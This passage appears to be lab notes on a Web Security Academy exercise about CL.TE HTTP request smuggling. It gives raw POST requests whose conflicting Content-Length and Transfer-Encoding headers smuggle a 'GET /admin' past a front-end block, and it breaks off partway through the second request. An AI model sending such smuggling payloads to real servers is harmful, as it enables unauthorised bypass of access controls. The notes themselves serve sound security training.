 x=1
0


```

- Smuggled GET cannot have body while POST must have body

### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

Accessing `/admin`, we get: "Path /admin is blocked"

```
POST / HTTP/1.1
Host: 0a6600530437fdfcc086273c00780093.web-security-academy.net
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 28
Transfer-Encoding: chunked
Connection: close

0

GET /admin HTTP/1.1


```

- Admin interface only available to local users

Bypass:

```
POST / HTTP/1.1
Host: 0a6600530437fdfcc086273c00780093.web-security-academy.net
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 53
Transfer-Encoding: chunked
Connection: close
